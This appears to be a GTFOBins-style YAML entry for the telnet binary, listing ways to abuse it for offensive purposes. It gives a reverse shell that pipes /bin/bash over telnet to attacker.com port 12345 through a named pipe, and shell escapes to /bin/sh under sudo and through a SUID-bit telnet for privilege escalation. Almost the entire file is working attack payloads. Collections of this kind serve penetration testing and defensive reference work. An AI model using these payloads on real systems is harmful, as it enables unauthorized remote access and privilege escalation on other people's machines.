 ```yaml
---
functions:
  exec-interactive:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      
---
```

